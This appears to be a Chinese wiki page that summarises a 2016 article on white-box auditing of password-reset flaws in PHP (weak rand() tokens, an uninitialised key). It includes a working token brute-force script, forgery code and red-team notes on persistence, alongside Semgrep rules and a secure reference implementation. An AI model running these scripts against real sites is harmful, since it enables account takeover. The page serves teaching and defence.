



## 概述

本页面为 **301在路上** 微信公众号（ID：MzIwMTQ2NzY4NA==）2016年8月发布技术文章 **《技术分享 | 从白盒审计角度挖掘逻辑漏洞》** 的结构化知识沉淀页。文章以 **密码重置功能** 为切入点，从白盒代码审计视角系统剖析了两类经典逻辑漏洞成因与利用方式，是早期国内安全社区公开分享代码审计实战方法论的代表性资料之一。

> **定位**：代码审计入门教学案例、逻辑漏洞挖掘方法论样本、密码重置安全设计反面教材  
> **关联索引**：[[301-zai-lushang-wechat-archive-201508-202208]]（301在路上归档总索引，含本文条目）  
> **同期对标**：[[0w1club-week10-web-injection-training]]（0w1Club第十期Web注入培训，同期萌新培养体系对比）、[[daily-security-digest-20191120]]（2019每日安全看点收录PHP序列化差异、CodeQL等审计工具链演进）

---

## 文章元信息

| 字段 | 详情 |
|------|------|
| **发布平台** | 301在路上微信公众号 |
| **发布时间** | 2016年8月（推测，mid=2652521173 与同期文章 mid=2652521189/1192/1195/1201/1203/1206 对应 2016-08下旬） |
| **原文链接** | http://mp.weixin.qq.com/s?__biz=MzIwMTQ2NzY4NA==&mid=2652521173&idx=1&sn=9d868fe3c2e529c342b2e2f5aa85c0ee |
| **文章性质** | 技术分享/代码审计实战/漏洞案例教学 |
| **核心标签** | #白盒审计 #逻辑漏洞 #密码重置 #PHP安全 #rand函数 #弱随机数 #密钥管理 |
| **作者背景** | 301在路上早期核心技术输出，侧重实战技能传授 |

---

## 核心知识框架

```mermaid
graph TB
A[密码重置逻辑漏洞挖掘] --> B[威胁建模]
A --> C[代码审计定位]
A --> D[漏洞分类与成因]
A --> E[利用链构造]
A --> F[修复与防御]

B --> B1[识别资产：用户账号体系]
B --> B2[界定边界：重置流程各环节]
B --> B3[梳理数据流：token生成-传输-校验-消费]
B --> B4[威胁枚举：伪造/窃取/重放/暴力破解token]

C --> C1[入口点：重置请求接口/邮件发送逻辑]
C --> C2[核心逻辑：auth/token生成算法]
C --> C3[校验点：token有效性/时效性/一次性校验]
C --> C4[状态变更：密码更新/会话绑定/失效处理]

D --> D1[熵值不足型：rand()/mt_rand()/time()/弱PRNG]
D --> D2[可控输入型：未初始化变量/用户可控参数参与生成]
D --> D3[逻辑缺陷型：并发竞争/流程绕过/状态机跳转]
D --> D4[实现缺陷型：类型转换/边界检查/加密误用]

E --> E1[字典构造：基于算法逆向生成候选集]
E --> E2[自动化爆破：Burp Intruder/自定义脚本]
E --> E3[组合利用：信息泄露辅助缩小搜索空间]
E --> E4[实战验证：账号接管/权限提升/横向移动]

F --> F1[使用CSPRNG：random_bytes/openssl_random_pseudo_bytes]
F --> F2[充分熵值：≥128bit安全随机数]
F --> F3[服务端生成：杜绝客户端参与token生成]
F --> F4[完整校验：时效/一次性/绑定上下文/频率限制]
F --> F5[审计规范：纳入SDL/Code Review Checklist]
```

---

## 漏洞案例深度剖析

### 案例一：`rand()` 函数熵值不足导致 Auth Token 可暴力破解

#### 漏洞代码还原
```php
<?php
// 伪代码还原自原文截图
$resetpwd = md5(rand());  // Windows下 rand() 最大值 32767 (2^15-1)

// 入库存储
$new['user']->update('user', array('email'=>$email), array('resetpwd'=>$resetpwd));

// 邮件发送重置链接
$content = '重设密码链接：<a href="'.$TS_SITE['base']['site_url'].
  'index.php?app=user&ac=resetpwd&mail='.$email.'&set='.$resetpwd.'">...';
```

#### 技术根因分析

| 维度 | 详情 | 安全影响 |
|------|------|----------|
| **随机源** | `rand()` 线性同余生成器 (LCG) | 确定性伪随机，非加密安全 |
| **熵空间** | Windows PHP: `0 ~ 32767` (15bit) <br> Linux PHP: `0 ~ 2147483647` (31bit) | 搜索空间极小，毫秒级可遍历 |
| **输出变换** | `md5(rand())` | 单向压缩不增加熵，仅格式化，仍为 32768 种可能 |
| **传输方式** | URL 参数 `set=md5(rand())` 明文传输 | 无传输加密保护，易被中间人/日志泄露 |
| **校验逻辑** | 原文未展示，推测为直接比对数据库存储值 | 无频率限制、无一次性销毁、无设备绑定 |

#### 攻击向量与利用链



#### 实战检测脚本（Python 改良版）
```python
import hashlib
import requests
from concurrent.futures import ThreadPoolExecutor

def generate_token_dict(max_val=32767):
    """预计算 token 字典，支持断点续传"""
    return [hashlib.md5(str(i).encode()).hexdigest() for i in range(max_val + 1)]

def brute_reset_token(target_url, email, token_dict, threads=20):
    """多线程爆破重置 token"""
    def test_token(token):
        params = {'mail': email, 'set': token}
        try:
            resp = requests.get(target_url, params=params, timeout=5)
            # 根据实际响应特征判断：重定向/包含"设置新密码"/无错误提示
            if "设置新密码" in resp.text or resp.status_code == 302:
                return token
        except Exception:
            pass
        return None
    
    with ThreadPoolExecutor(max_workers=threads) as executor:
        futures = {executor.submit(test_token, t): t for t in token_dict}
        for future in futures:
            result = future.result()
            if result:
                return result
    return None

# 使用示例
# tokens = generate_token_dict()
# valid = brute_reset_token("http://target.com/index.php?app=user&ac=resetpwd", "admin@admin.com", tokens)
```

#### 变种与延伸场景
| 变种场景 | 典型代码模式 | 搜索空间 | 利用难度 |
|----------|--------------|----------|----------|
| `mt_rand()` 未播种 | `md5(mt_rand())` | 2^31 (Linux) / 2^31 (Win, PHP<7.1) | 中等，需种子推断或分布式爆破 |
| `time()` 作为随机源 | `md5(time())` | 秒级时间窗口 ±300s | 极低，结合邮件发送时间窗口 |
| `uniqid()` 直接使用 | `uniqid()` / `uniqid(true)` | 微秒级时间 + 线性同余 | 低，可通过时间同步缩小范围 |
| 组合弱随机源 | `md5(rand().time().rand())` | 乘积空间但仍可分解 | 中等，需分步爆破或会合攻击 |

---

### 案例二：未初始化密钥导致 Auth Token 可控构造

#### 漏洞代码还原
```php
// 重置链接生成逻辑
$timetemp = date("Y-m-d H:i:s", $this->time);
$auth = util::strcode($timetemp, 'ENCODE');
$verification = rand(1000, 9999);
$encryptstring = md5($this->time . $verification . $auth);
$reseturl = WIKI_URL . "/index.php?user-getpass-" . $user['uid'] . '-' . $encryptstring;

// strcode 加密函数
function strcode($string, $action='ENCODE') {
    $key = substr(md5($_SERVER["HTTP_USER_AGENT"] . PP_KEY), 8, 18);
    // ... 异或加密逻辑 ...
}
```

#### 核心缺陷链条

```mermaid
graph LR
A[PP_KEY 未初始化] --> B[密钥派生: md5(User-Agent . \"\")]
B --> C[Key 仅取决于 User-Agent]
C --> D[User-Agent 攻击者可控]
D --> E[攻击者可计算相同 Key]
E --> F[可本地生成合法 auth]
F --> G[结合可控 time/verification]
G --> H[构造任意 encryptstring]
H --> I[伪造重置链接接管账号]
```

#### 关键技术点逐层拆解

| 层级 | 代码片段 | 问题本质 | 可控性分析 |
|------|----------|----------|------------|
| **常量缺失** | `PP_KEY` 未定义/为空 | PHP 未定义常量按字符串处理，等同于 `""` | 🔴 **完全可控** - 攻击者无需任何前置条件 |
| **密钥派生** | `md5($_SERVER["HTTP_USER_AGENT"] . PP_KEY)` | 仅包含用户可控的 HTTP 头 | 🔴 **完全可控** - 攻击者可任意设定 UA 计算相同 Key |
| **截取操作** | `substr(..., 8, 18)` | 固定偏移截取，不增加不确定性 | 🔴 **完全可控** - 确定性算法 |
| **加密算法** | 异或流密码 `string[i] ^ key[i%len]` | 线性可逆，已知明文即可推导密钥流 | 🟡 **已知明文攻击** - timetemp 格式固定，已知明文长度充足 |
| **随机因子** | `$verification = rand(1000, 9999)` | 9000 种可能，可枚举 | 🟢 **可枚举** - 结合时间窗口，搜索空间 ~9000×时间范围 |
| **时间因子** | `$this->time` (时间戳) | 精确到秒，邮件发送时间可推断 | 🟢 **可推断** - 邮件头 Date 字段/服务器时间同步 |

#### 完整利用链构造步骤

1. **信息收集**
   - 目标站点重置链接格式：`/user-getpass-{uid}-{encryptstring}`
   - 目标账号 UID（通过信息泄露/遍历/社工获取）
   - 服务器大致时间（HTTP Date 头 / NTP / 邮件发送时间）

2. **本地还原算法**
   ```php
   // 攻击者本地复现 strcode 逻辑
   function strcode_local($string, $ua, $action='ENCODE') {
       $PP_KEY = "";  // 未初始化即为空
       $key = substr(md5($ua . $PP_KEY), 8, 18);
       $len = strlen($key);
       $code = '';
       for($i=0; $i < strlen($string); $i++) {
           $k = $i % $len;
           $code .= $string[$i] ^ $key[$k];
       }
       return $action == 'DECODE' ? $code : base64_encode($code);
   }
   ```

3. **构造攻击载荷**
   ```python
   import hashlib
   import base64
   from datetime import datetime, timedelta
   
   def forge_reset_token(target_uid, target_email, server_time_approx):
       ua = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
       # 1. 计算 auth (已知明文攻击：timetemp 格式固定 Y-m-d H:i:s)
       timetemp = server_time_approx.strftime("%Y-%m-%d %H:%M:%S")
       auth = strcode_local(timetemp, ua, 'ENCODE')
       
       # 2. 遍历 verification 空间 (1000-9999)
       for verification in range(1000, 10000):
           encryptstring = hashlib.md5(
               f"{int(server_time_approx.timestamp())}{verification}{auth}".encode()
           ).hexdigest()
           
           # 3. 验证 token 有效性 (可离线验证算法正确性，或在线试探)
           yield f"/user-getpass-{target_uid}-{encryptstring}"
   ```

4. **自动化验证与账号接管**
   - 批量请求生成的重置链接
   - 识别响应差异（成功进入设置新密码页面）
   - 完成密码重置，账号接管

#### 根因分类与通用化模式

| 缺陷模式 | 代码特征 | 审计关键词 | 通用修复 |
|----------|----------|------------|----------|
| **敏感常量未初始化** | `CONST_NAME` 未定义/配置缺失 | `defined()` / `getenv()` 返回 false / 空字符串拼接 | 强制配置校验、启动时自检、默认拒绝服务 |
| **密钥派生依赖可控输入** | `hash(user_input . secret)` | `$_SERVER` / `$_GET` / `$_POST` / `$_COOKIE` 参与密钥生成 | 密钥仅来源于服务端安全存储（环境变量/密钥库/HSM） |
| **自研加密算法** | XOR/位运算/自定义替换表 | `^` / `<<` `>>` / `chr()` `ord()` 自定义循环 | 使用成熟库：`openssl_encrypt` / `sodium_crypto_aead` / `libsodium` |
| **时间/弱随机参与敏感计算** | `md5(time().rand()...)` | `time()` / `rand()` / `mt_rand()` / `uniqid()` | 使用 CSPRNG：`random_bytes()` / `random_int()` / `openssl_random_pseudo_bytes()` |

---

## 代码审计方法论沉淀：密码重置专项检查清单

> 基于本文两案例抽象，形成可复用的白盒审计检查项

### Token 生成环节审计点

| 检查项 | 判断标准 | 高风险模式 | 推荐做法 |
|--------|----------|------------|----------|
| **随机源** | 是否使用 CSPRNG | `rand()` `mt_rand()` `time()` `uniqid()` `microtime()` `lcg_value()` | `random_bytes(32)` / `bin2hex(random_bytes(16))` |
| **熵值** | 理论搜索空间 ≥ 2^128 | 任何显式/隐式限制搜索空间的操作 | 直接使用 16-32 字节二进制随机数 |
| **服务端生成** | Token 完全在服务端生成 | 客户端参与生成 / 客户端传入种子 / 可预测参数混入 | 服务端单向生成，不接受任何外部输入 |
| **密钥管理** | 加密/签名密钥来源安全 | 硬编码 / 配置文件明文 / 环境变量未设 / 派生自用户输入 | 密钥管理系统 / 环境变量强制校验 / 定期轮换 |
| **算法选择** | 使用标准认证加密 | 自研 XOR / ECB 模式 / 无完整性校验 / 重放可行 | `AES-GCM` / `ChaCha20-Poly1305` / `HMAC-SHA256` + `encrypt-then-mac` |

### Token 传输与存储审计点

| 检查项 | 高风险模式 | 安全基线 |
|--------|------------|----------|
| **传输加密** | HTTP 明文传输 / URL 参数携带 / Referer 泄露 | 全站 HTTPS / POST Body 传输 / 设置 `Referrer-Policy: no-referrer` |
| **存储保护** | 明文存储 / 可逆加密 / 哈希未加盐 | `argon2id` / `bcrypt` / `scrypt` 单向哈希存储，验证时比对 |
| **日志脱敏** | 访问日志/错误日志记录完整 Token | 中间件层面脱敏规则，Token 字段替换为 `***` |

### Token 校验与消费审计点

| 检查项 | 高风险模式 | 安全基线 |
|--------|------------|----------|
| **时效性** | 无过期时间 / 过期时间过长（>24h） | 15-30 分钟有效期，关键操作 ≤10 分钟 |
| **一次性** | 可重复使用 / 未删除 / 标记未生效 | 校验成功即物理删除或标记失效，防止并发竞争 |
| **绑定上下文** | 仅校验 Token 值 | 绑定：用户ID / 客户端IP / User-Agent / 设备指纹 / 会话ID |
| **频率限制** | 无限制 / 仅前端限制 | IP+账号双维度限流：请求≤3次/小时，校验≤5次/15分钟 |
| **状态机完整性** | 可跳过步骤 / 逆向流程 / 并发绕过 | 有限状态机建模，每步校验前置条件，关键操作串行化 |

### 业务逻辑完整性审计点

| 场景 | 典型逻辑缺陷 | 审计验证用例 |
|------|--------------|--------------|
| **多渠道重置** | 邮箱/短信/安全问题/备用码 任意渠道可绕过强认证 | 尝试降级攻击：发起短信重置后切换邮箱链接完成 |
| **会话固定** | 重置后未失效现有会话 / 自动登录新会话 | 重置前记录会话，重置后验证旧会话是否失效 |
| **并发竞争** | 同一 Token 并发提交 / 重置密码与修改密码并发 | 并发发送 100+ 请求，观察是否出现多次成功/数据不一致 |
| **枚举攻击** | 响应差异泄露账号存在性 | 对不存在账号发起重置，对比响应时间/内容/状态码 |

---

## 实战检测工具链与自动化方案

### 静态分析规则（Semgrep/CodeQL/RIPS 规则示例）

```yaml
# Semgrep 规则：检测密码重置 token 使用弱随机源
rules:
  - id: weak-random-in-password-reset
    pattern-either:
      - pattern: md5(rand(...))
      - pattern: md5(mt_rand(...))
      - pattern: sha1(rand(...))
      - pattern: hash($X, rand(...))
      - pattern: $X = rand(...); ... md5($X)
      - pattern: $X = mt_rand(...); ... hash(..., $X)
    message: "密码重置 token 使用弱随机数生成，可被暴力破解"
    severity: ERROR
    metadata:
      cwe: "CWE-338: Use of Cryptographically Weak Pseudo-Random Number Generator"
      owasp: "A07:2021 - Identification and Authentication Failures"

  - id: uninitialized-constant-in-crypto
    pattern: |
      $KEY = substr(md5($_SERVER[...] . CONST_NAME), ...)
    metavariable-regex:
      CONST_NAME: "^[A-Z_]+$"
    message: "加密密钥派生依赖未初始化常量，可能导致密钥可控"
    severity: ERROR
    metadata:
      cwe: "CWE-326: Inadequate Encryption Strength"
```

### 动态扫描与 Fuzzing 策略

| 阶段 | 工具/方法 | 关键配置 |
|------|-----------|----------|
| **被动扫描** | Burp Scanner / OWASP ZAP | 启用 "Authentication" 扫描策略，配置重置流程宏 |
| **主动 Fuzzing** | wfuzz / ffuf / 自定义脚本 | Token 参数 Payload：弱随机字典 / 时间窗口字典 / 算法逆向字典 |
| **逻辑测试** | Postman Collection / PyTest + requests | 并发测试 / 状态跳转测试 / 越权测试 / 降级测试 |
| **差异分析** | 自定义响应比对器 | 响应长度/状态码/关键词/重定向链/Set-Cookie 差异聚类 |

### 专项审计脚本模板（Python）

```python
class PasswordResetAuditor:
    def __init__(self, base_url, target_email):
        self.base_url = base_url
        self.target_email = target_email
        self.session = requests.Session()
        
    def audit_weak_random(self, max_val=32767):
        """审计 rand()/mt_rand() 弱随机"""
        # 1. 触发重置邮件获取链接结构
        reset_url = self._trigger_reset()
        # 2. 解析参数位置
        param_name = self._extract_token_param(reset_url)
        # 3. 生成字典爆破
        tokens = [hashlib.md5(str(i).encode()).hexdigest() for i in range(max_val+1)]
        return self._brute_force(param_name, tokens)
    
    def audit_controllable_key(self, ua="TestAgent"):
        """审计密钥可控漏洞"""
        # 1. 逆向分析算法 (需人工/半自动)
        # 2. 本地实现算法
        # 3. 遍历可控空间 (verification/time/UA)
        # 4. 验证生成的 token
        pass
    
    def audit_logic_flaws(self):
        """审计逻辑缺陷：并发/重放/越权/枚举"""
        results = {}
        results['replay'] = self._test_replay_attack()
        results['concurrent'] = self._test_concurrent_reset()
        results['id_enumeration'] = self._test_user_enumeration()
        results['privilege_escalation'] = self._test_horizontal_escalation()
        return results
```

---

## 修复指南与安全编码规范

### 密码重置 Token 生成安全规范（PHP 版）

```php
<?php
// 安全的密码重置 Token 生成与校验参考实现

class SecurePasswordReset {
    const TOKEN_BYTES = 32;           // 256bit 熵值
    const TOKEN_TTL = 1800;           // 30分钟有效期 (秒)
    const MAX_ATTEMPTS = 5;           // 最大尝试次数
    const RATE_LIMIT_WINDOW = 3600;   // 限流窗口 1小时
    
    private $pdo;
    private $redis; // 用于限流和临时存储
    
    public function generateResetToken(string $email, string $clientIp, string $userAgent): array {
        // 1. 生成加密安全随机 token
        $tokenRaw = random_bytes(self::TOKEN_BYTES);
        $tokenHash = hash('sha256', $tokenRaw); // 存储哈希，不存明文
        $tokenId = bin2hex(random_bytes(8));    // 公开标识符，非秘密
        
        // 2. 绑定上下文信息
        $context = [
            'email' => $email,
            'ip' => $clientIp,
            'ua_hash' => hash('sha256', $userAgent),
            'created_at' => time(),
            'expires_at' => time() + self::TOKEN_TTL,
            'attempts' => 0
        ];
        
        // 3. 原子化存储：Redis 设置过期时间 + 限流计数器
        $key = "pwd_reset:{$tokenId}";
        $this->redis->multi()
            ->hSet($key, ['token_hash' => $tokenHash, 'context' => json_encode($context)])
            ->expire($key, self::TOKEN_TTL)
            ->exec();
            
        // 4. 限流：IP+Email 维度
        $rateKey = "ratelimit:pwd_reset:{$clientIp}:{$email}";
        $this->redis->incr($rateKey);
        $this->redis->expire($rateKey, self::RATE_LIMIT_WINDOW);
        
        return [
            'token_id' => $tokenId,
            'token_raw' => bin2hex($tokenRaw), // 仅此次返回，用于构造邮件链接
            'expires_in' => self::TOKEN_TTL
        ];
    }
    
    public function validateResetToken(string $tokenId, string $tokenRaw, string $clientIp, string $userAgent): bool {
        $key = "pwd_reset:{$tokenId}";
        $data = $this->redis->hGetAll($key);
        
        if (empty($data)) {
            return false; // Token 不存在或已过期/使用
        }
        
        $context = json_decode($data['context'], true);
        
        // 1. 校验上下文绑定
        if ($context['ip'] !== $clientIp || 
            hash('sha256', $userAgent) !== $context['ua_hash']) {
            $this->invalidateToken($tokenId); // 疑似攻击，直接失效
            return false;
        }
        
        // 2. 校验尝试次数
        if ($context['attempts'] >= self::MAX_ATTEMPTS) {
            $this->invalidateToken($tokenId);
            return false;
        }
        
        // 3. 恒定时间比对防侧信道
        $providedHash = hash('sha256', hex2bin($tokenRaw));
        if (!hash_equals($data['token_hash'], $providedHash)) {
            // 增加尝试计数
            $this->redis->hIncrBy($key, 'attempts', 1);
            $context['attempts']++;
            $this->redis->hSet($key, 'context', json_encode($context));
            return false;
        }
        
        // 4. 校验通过，标记已用（或立即删除）
        $this->invalidateToken($tokenId);
        return true;
    }
    
    private function invalidateToken(string $tokenId): void {
        $this->redis->del("pwd_reset:{$tokenId}");
    }
    
    public function checkRateLimit(string $email, string $clientIp): bool {
        $rateKey = "ratelimit:pwd_reset:{$clientIp}:{$email}";
        $count = (int)$this->redis->get($rateKey);
        return $count < 3; // 每小时最多 3 次请求
    }
}
```

### 通用修复清单（跨语言）

| 修复项 | PHP | Java/Spring | Python/Django | Go | Node.js |
|--------|-----|-------------|---------------|----|---------|
| **CSPRNG** | `random_bytes()` | `SecureRandom` | `secrets.token_bytes()` | `crypto/rand.Read()` | `crypto.randomBytes()` |
| **Token哈希存储** | `hash('sha256', $token)` | `MessageDigest.getInstance("SHA-256")` | `hashlib.sha256()` | `sha256.Sum256()` | `crypto.createHash('sha256')` |
| **恒定时间比对** | `hash_equals()` | `MessageDigest.isEqual()` | `hmac.compare_digest()` | `subtle.ConstantTimeCompare()` | `crypto.timingSafeEqual()` |
| **限流组件** | Redis + Lua 脚本 | `Bucket4j` / `Resilience4j` | `django-ratelimit` / `slowapi` | `golang.org/x/time/rate` | `express-rate-limit` |
| **配置管理** | 环境变量 + `.env` 校验 | Spring `@Value` + `ConfigServer` | `python-decouple` / `pydantic-settings` | `viper` / `envconfig` | `dotenv` + `joi` 校验 |

---

## 知识卡片：逻辑漏洞挖掘通用方法论（基于本文抽象）

### 卡片 1：白盒审计「数据流-控制流-状态流」三维定位法



### 卡片 2：逻辑漏洞挖掘「五步走」实战流程

| 步骤 | 核心动作 | 产出物 | 本文对应实践 |
|------|----------|--------|--------------|
| **1. 威胁建模** | 画出数据流图、识别信任边界、枚举攻击面 | STRIDE威胁清单、数据流图(DFD) | 识别「Token生成-邮件传输-用户点击-校验消费」全链路 |
| **2. 代码定位** | 入口点溯源、关键函数标记、依赖库梳理 | 函数调用图、关键代码片段清单 | 定位 `rand()` 生成点、`strcode()` 加密函数、校验逻辑 |
| **3. 缺陷假设** | 基于模式库匹配：弱随机/可控输入/逻辑跳转/边界绕过 | 假设缺陷列表（含可利用性评级） | 假设1：rand熵值不足；假设2：PP_KEY未初始化导致密钥可控 |
| **4. 验证利用** | 本地复现算法、构造字典/脚本、自动化验证、影响评估 | POC脚本、利用视频、CVSS评分 | 编写MD5字典生成脚本、Burp爆破验证、Python逆向strcode构造链接 |
| **5. 修复验证** | 代码修复审查、回归测试、规则加入扫描器、文档沉淀 | 修复方案对比、测试报告、检测规则 | 推荐CSPRNG、强制初始化常量、完整校验流程、限流机制 |

### 卡片 3：密码重置安全设计「黄金法则」

| 原则 | 违反本文案例 | 一句话口诀 |
|------|--------------|------------|
| **随机性源头可信** | `rand()` 15bit熵值 | 随机数必须用CSPRNG，熵值不足等于裸奔 |
| **密钥生存环境隔离** | `PP_KEY` 未初始化+用户可控UA参与派生 | 密钥只信服务端配置，不信任何外部输入 |
| **算法标准化不可自造** | 自研XOR流密码 `strcode` | 不要自己造轮子，成熟库才是硬道理 |
| **Token全生命周期受控** | 无时效/无一次性/无绑定/无限流 | 生存有期、用完即毁、绑定上下文、频率受限 |
| **失败处理不泄露信息** | 响应差异可识别成功/失败 | 成功失败同话术、同耗时、同跳转、同日志级别 |

---

## 跨期关联与生态映射

### 301在路上内容演进脉络中的本文定位

| 时间 | 文章/事件 | 内容层级 | 与本文关联 |
|------|-----------|----------|------------|
| **2016-08** | **本文：白盒审计挖掘逻辑漏洞** | **技术实战教学** | 核心技术输出，确立代码审计方法论基调 |
| 2016-08 | 《安全顾问式销售，你感兴趣？》 | 职业发展/行业观察 | 同期发布，体现「技术+商业」双轮驱动 |
| 2016-08 | 《某快递公司再现内鬼，泄露客户信息》 | 数据安全/案例复盘 | 同期发布，侧面印证内部威胁与代码缺陷双重风险 |
| 2016-08 | 《徐玉玉案十大安全追问》 | 社会治理/政策呼吁 | 同期发布，从技术漏洞上升到个人信息保护体系 |
| 2017 | 《信息安全从业者城市选择心理调查》 | 人才画像/行业生态 | 后续内容，折射技术人才流动与技能变现路径 |
| 2019+ | 每日安全看点收录 CodeQL/语义分析/IAST | 工具链演进 | 验证本文手工审计方法论向自动化工具化演进 |

### 同期社区技术对标

| 社区/团队 | 同期代表性技术输出 | 方法论异同 |
|-----------|-------------------|------------|
| **0w1Club (西交大)** | [[0w1club-week10-web-injection-training]] Web注入绕过培训 | 同为萌新培养，0w1侧重黑盒/实战绕过，301侧重白盒/代码审计 |
| **知道创宇/先知社区** | 语义分析/CodeQL规则库建设 | 从人工审计向静态分析工具化转型的先行者 |
| **乌云/补天/白帽汇** | 漏洞提交实战/赏金猎人生态 | 实战验证平台，本文类漏洞曾为主流提交类型 |
| **黑客马拉松/CTF** | 逻辑漏洞题目设计（如密码重置竞态） | 竞技化推动技术极限探索，本文案例常成CTF原型 |

### 现代工具链映射：从手工审计到自动化检测

| 时代 | 核心手段 | 典型工具 | 本文漏洞检测能力 |
|------|----------|----------|------------------|
| **2016 (本文)** | 手工代码阅读 + Burp 爆破 + 自写脚本 | Notepad++ / Burp Suite / Python | ✅ 完全依赖审计员经验，发现率低、周期长 |
| **2018-2020** | 静态分析引擎 + 语义模式匹配 | RIPS / PhpStan / Psalm / CodeQL (早期) | 🟡 可配置规则检测 `rand()`/`mt_rand()`，但自研算法难覆盖 |
| **2021-2023** | IAST/RASP + 污点分析 + 运行时验证 | OpenRASP / DongTai / Contrast / CodeQL (成熟) | 🟢 运行时污点追踪可捕获「用户输入流入Token生成」、弱随机调用链 |
| **2024+** | LLM辅助审计 + 语义理解 + 自动化修复 | GitHub Copilot / CodeWhisperer / 专用安全模型 | 🟢 自然语言描述漏洞模式，自动生成检测规则/修复补丁 |

---

## 实践价值与应用场景

### 代码审计教学与人才培养
- **入门案例库**：作为「白盒审计入门」标准教学案例，覆盖「代码阅读→威胁建模→缺陷定位→利用构造→修复验证」全流程
- **CTF 题目原型**：密码重置逻辑漏洞是 Web 安全赛题高频考点，本文两案例可直接改编为「Easy/Medium」难度题目
- **企业 SDL 培训**：开发人员安全编码培训反面教材，直观展示「随机数误用」「密钥管理缺失」「自研加密」三大禁忌

### 遗留系统专项排查清单
> 针对 2016 年前开发、未重构的 PHP/Java/ASP 老系统

| 排查对象 | 关键词搜索 | 重点文件 | 判定标准 |
|----------|------------|----------|----------|
| **弱随机数** | `rand(` `mt_rand(` `time(` `uniqid(` `lcg_value(` `srand(` | 用户模块/认证模块/密码重置/邮件发送/Token生成 | 直接用于安全敏感 Token 生成即判定为高危 |
| **密钥硬编码/未初始化** | `define(` `const ` `getenv(` `$_SERVER[` `$_ENV[` `PP_KEY` `SECRET_KEY` `API_KEY` | 配置文件/常量定义/加密工具类/初始化脚本 | 未从安全配置中心/环境变量/密钥库读取即判定为中高危 |
| **自研加密** | `^` `<<` `>>` `chr(` `ord(` `base64_encode(` `mcrypt_` `openssl_` (非标准模式) | 工具类/加密类/编码类/安全过滤器 | 非调用标准库高级接口（如 `openssl_encrypt` with GCM）即判定为需人工复核 |

### 现代化改造参考架构



### 红蓝对抗实战转化

#### 红队视角（授权前提下）
- **凭证获取**：密码重置漏洞是「初始访问」除钓鱼外的高成功率路径，尤其针对管理员/高权账号
- **持久化**：重置密码后可登录植入 WebShell/SSH Key/计划任务/黄金票据
- **横向移动**：利用同一套弱随机/密钥管理缺陷，批量接管同平台多系统账号
- **痕迹清理**：重置流程往往记录日志较少，利用「重置后自动登录」特性减少登录日志

#### 蓝队视角
- **蜜罐 Token**：在重置链接中植入标记 Token，任何访问即触发高级告警
- **行为基线**：建立「正常重置流程」行为画像（IP/UA/时间/频率/地理位置），偏离即告警
- **攻击溯源**：关联邮件网关/WEB日志/数据库审计/网络流量，还原完整攻击链
- **应急演练**：定期模拟「管理员密码重置被接管」场景，验证检测/响应/恢复流程

---

## 页面维护与扩展指南

### 增量更新触发条件
- [ ] 发现同类新变种（如 `random_int()` 使用不当 / `libsodium` 参数错误 / JWT `none` 算法 / 随机数种子泄露）
- [ ] 主流框架（Laravel/ThinkPHP/Spring/Django/Express）发布密码重置组件安全更新
- [ ] CodeQL/Semgrep/RIPS 官方规则库新增密码重置相关检测规则
- [ ] 重大泄露事件溯源指向密码重置逻辑缺陷（如著名厂商管理员账号被接管）
- [ ] 301在路上发布后续技术进阶文章（如「从灰盒到黑盒的逻辑漏洞挖掘」「IAST实战逻辑漏洞发现」）
- [ ] 相关国家标准/行业规范更新（如《GB/T 39786-2021 DSMM》数据安全能力成熟度模型新增认证模块要求）

### 关联页面扩展建议
| 目标页面 | 扩展动作 | 价值点 |
|----------|----------|--------|
| [[301-zai-lushang-wechat-archive-201508-202208]] | 在索引表中补充本文条目（日期/标题/核心标签/沉淀状态），在「深度沉淀」章节新增第 8 节链接 | 完善归档索引结构化程度 |
| [[0w1club-week10-web-injection-training]] | 互引「代码审计视角 vs 黑盒测试视角」对比，补充「注入绕过与逻辑漏洞的联合挖掘」专题 | 多视角融合提升挖掘效率 |
